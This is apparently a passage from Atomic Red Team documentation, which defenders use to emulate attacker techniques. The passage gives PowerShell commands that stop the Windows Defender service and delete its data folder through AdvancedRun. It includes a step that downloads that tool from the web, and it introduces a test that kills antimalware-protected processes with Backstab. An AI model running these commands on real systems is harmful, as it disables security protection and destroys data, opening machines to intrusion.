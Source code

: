 #### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Try {cmd /c "#{AdvancedRun_Location}" /EXEFilename "$env:systemroot\System32\sc.exe" /WindowState 0 /CommandLine "stop WinDefend" /StartDirectory "" /RunAs 8 /Run} Catch{}
if(#{delete_defender_folder}){
  $CommandToRun = rmdir "$env:programdata\Microsoft\Windows Defender" -Recurse
  Try {cmd /c "#{AdvancedRun_Location}" /EXEFilename "$env:systemroot\System32\WindowsPowershell\v1.0\powershell.exe" /WindowState 0 /CommandLine "$CommandToRun" /StartDirectory "" /RunAs 8 /Run} Catch{}
}
```

#### Cleanup Commands:

```powershell
Try {cmd /c "#{AdvancedRun_Location}" /EXEFilename "$env:systemroot\System32\sc.exe" /WindowState 0 /CommandLine "start WinDefend" /StartDirectory "" /RunAs 8 /Run} Catch{}
```

#### Dependencies: Run with `powershell`!

##### Description: Advancedrun.exe must exist at #{AdvancedRun_Location}

##### Check Prereq Commands:

```powershell
if(Test-Path -Path "#{AdvancedRun_Location}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "http://www.nirsoft.net/utils/advancedrun.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\advancedrun.zip"
Expand-Archive -path "PathToAtomicsFolder\..\ExternalPayloads\advancedrun.zip" -destinationpath "PathToAtomicsFolder\..\ExternalPayloads\" -Force
```

<br/>
<br/>

## Atomic Test #29 - Kill antimalware protected processes using Backstab

Backstab loads Process Explorer driver which is signed by Microsoft and use it to terminate running processes protected by antimalware software such as MsSense.exe or MsMpEng.exe, which is otherwise not possible to kill.
https://github.com/Yaxser/Backstab

**Supported Platforms:** Windows
